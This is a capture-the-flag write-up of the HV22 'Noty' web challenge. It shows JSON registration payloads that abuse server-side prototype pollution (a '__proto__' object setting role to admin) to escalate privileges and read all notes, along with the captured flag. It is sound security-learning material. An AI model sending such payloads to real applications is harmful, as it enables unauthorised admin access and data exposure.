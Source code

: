 # [HV22.13] Noty

<table>
  <tr>
    <th>Categories</th>
    <td>Web Security</td>
  </tr>
  <tr>
    <th>Level</th>
    <td>medium</td>
  </tr>
  <tr>
    <th>Author</th>
    <td>HaCk0</td>
  </tr>
</table>

## Description
After the previous fiasco with multiple bugs in Notme (some intended and some not), Santa released a now truly secure note taking app for you. Introducing: Noty, a fixed version of Notme.

Also Santa makes sure that this service runs on green energy. No pollution from this app ;)

## Solution
Noty - not again.. :D

Noty is a fixed version of Notme - even the unintended solution has been fixed this time.

After some struggling, `mcia` pointed me to the obvious hint in the description.
This challenge was about some "pollution" attack.
There are two that are known:
- Query/request parameter pollution ([explained here](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications)).
- Prototype pollution on a JS application (client- and server-side).

Since there are now query parameters used in this webapp and the webserver seemingly being ExpressJS, I went for the latter.

Several attempts later, each one breaking the application, because new properties were added to all objects, I managed to find the right place to pollute, which was the user registration/creation endpoint.

Here are a few attempts, each crashing the application:

Try overriding the password or the hash of it. This one added `username` and `password` properties to all objects on the server.
```json
{
"username":"test3",
"password": "test",
"__proto__": {
    "username":"test4",
    "password":"9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08"
}}
```

Try overriding the user's ID. This one added an `id` property to all objects.
```json
{
"username":"test2",
"password": "test",
"__proto__": {
    "id": 1337
}}
```

Be desperate:
```json
{"username":"test2","password":"test", "__proto__":{"toString": "blah"}}  

=> {"error":"Object.prototype.toString.call is not a function"}
```

**Final solution**: Grant myself the `admin` role.

Create a user:
```json
# Request payload
{"username":"test1","password":"test", "__proto__": {"role": "admin"}}

# Response
=> {"id":2,"username":"test1","password":"9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08","role":"admin","updatedAt":"2022-12-13T21:09:23.730Z","createdAt":"2022-12-13T21:09:23.730Z"}
```

And then, using the returned session, list all notes 🎉:
```json
# Request
GET /api/note/all HTTP/2
Cookie: ...

# Response
[{
    "id":1337,
    "note":"HV22{P0luT1on_1S_B4d_3vERyWhere}",
    "userId":1337,
    "createdAt":"2022-12-13T21:08:02.730Z",
    "updatedAt":"2022-12-13T21:08:02.730Z"
},
{
    "id":1,
    "note":"asdfsdfsaf",
    "userId":1,
    "createdAt":"2022-12-13T21:08:26.254Z",
    "updatedAt":"2022-12-13T21:08:26.254Z"
}]
```

## Links
- https://itnext.io/prototype-pollution-attack-on-nodejs-applications-94a8582373e7?gi=5ea0c35d5552
- https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications
- https://github.com/var77/proto-pollution-owasp-yerevan
- https://learn.snyk.io/lessons/prototype-pollution/javascript/
- https://hackernoon.com/how-to-exploit-prototype-pollution

## Flag
```
HV22{P0luT1on_1S_B4d_3vERyWhere}
```
